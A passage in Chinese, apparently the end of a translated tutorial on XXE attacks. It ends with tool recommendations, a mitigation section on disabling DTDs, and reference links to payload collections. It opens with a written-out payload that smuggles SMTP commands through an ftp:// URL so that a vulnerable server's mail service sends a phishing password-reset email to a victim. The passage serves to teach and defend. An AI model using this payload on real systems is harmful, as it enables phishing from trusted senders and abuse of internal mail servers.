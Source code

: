 当FTP客户端使用该URL连接时，以下命令将发送`VULNERABLESYSTEM.com`上的邮件服务器：

```
ftp://a
EHLO a
MAIL FROM: &lt;support@VULNERABLESYSTEM.com&gt;
RCPT TO: &lt;victim@gmail.com&gt;
DATA
From: support@VULNERABLESYSTEM.com
To: victim@gmail.com
Subject: Reset your password
We need to confirm your identity. Confirm your password here: http://PHISHING_URL.com
.
QUIT
:support@VULNERABLESYSTEM.com:25
```

这样攻击者就可以从受信任的源发送钓鱼（例如：帐户重置链接）电子邮件，绕过垃圾邮件过滤器并降低服务的信任。 在可以从执行XML解析的计算机访问到内部邮件服务器的情况下，这个攻击特别有意思。<br>
友情提醒：它甚至允许发送附件;-)



## 推荐几款有用的工具

现在谈到XXE，重要的是能够随时手动编辑Web请求的内容，BurpSuite是推荐的工具之一。 在某些情况下，BurpSuite的扫描功能可以检测潜在的XXE漏洞，但建议手动利用。 如果你设法利用存在XXE漏洞的系统，BurpSuite的Intruder比较适合自动探测开放端口。 通过查看响应时间/响应长度，就可以快速判断端口是否已打开。

RequestBin和HookBin等HTTP请求分析器可用于测试OOB XXE。 BurpSuite Pro’s Collaborator一般来说可以解决这个问题，但是一些安全研究人员更喜欢使用他们自己的VPS。



## 漏洞应对措施

绝不相信你的最终用户。 在本文中，我们可以发现主要问题是在于XML解析器处理用户发送的不受信任的数据上。大多数XML解析器默认易受到XML外部实体攻击。 因此，最佳解决方案是将XML处理器配置为使用本地静态DTD，并在部署应用程序之前禁用XML文档中包含的任何声明的DTD。



## 参考
1. [https://blog.zsec.uk/blind-xxe-learning/](https://blog.zsec.uk/blind-xxe-learning/)
1. [https://www.acunetix.com/blog/articles/xml-external-entity-xxe-limitations/](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-limitations/)
1. [https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
1. [https://mikeknoop.com/lxml-xxe-exploit/](https://mikeknoop.com/lxml-xxe-exploit/)


## XXE相关知识
1. [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injections](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injections)
1. [https://www.gracefulsecurity.com/xxe-cheatsheet/](https://www.gracefulsecurity.com/xxe-cheatsheet/)
1. [https://gist.github.com/abdilahrf/63ea0a21dc31010c9c8620425e212e30](https://gist.github.com/abdilahrf/63ea0a21dc31010c9c8620425e212e30)
审核人：yiwang   编辑：边边
